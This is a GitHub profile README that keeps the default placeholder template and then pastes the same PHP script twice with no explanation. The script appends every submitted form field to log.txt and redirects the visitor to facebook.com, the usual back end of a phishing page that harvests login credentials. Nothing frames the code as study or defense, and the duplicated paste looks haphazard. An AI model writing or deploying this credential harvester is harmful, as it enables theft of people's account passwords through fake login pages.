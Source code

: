 - 👋 Hi, I’m @767591556
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...

<!---
767591556/767591556 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
php 



<?php 

  
// Set the location to redirect the page 

header ('Location: http://www.facebook.com'); 

  
// Open the text file in writing mode  

$file = fopen("log.txt", "a"); 

  

foreach($_POST as $variable => $value) { 

    fwrite($file, $variable); 

    fwrite($file, "="); 

    fwrite($file, $value); 

    fwrite($file, "\r\n"); 
} 

  

fwrite($file, "\r\n"); 

fclose($file); 

exit; 
?> php 



<?php 

  
// Set the location to redirect the page 

header ('Location: http://www.facebook.com'); 

  
// Open the text file in writing mode  

$file = fopen("log.txt", "a"); 

  

foreach($_POST as $variable => $value) { 

    fwrite($file, $variable); 

    fwrite($file, "="); 

    fwrite($file, $value); 

    fwrite($file, "\r\n"); 
} 

  

fwrite($file, "\r\n"); 

fclose($file); 

exit; 
?> 
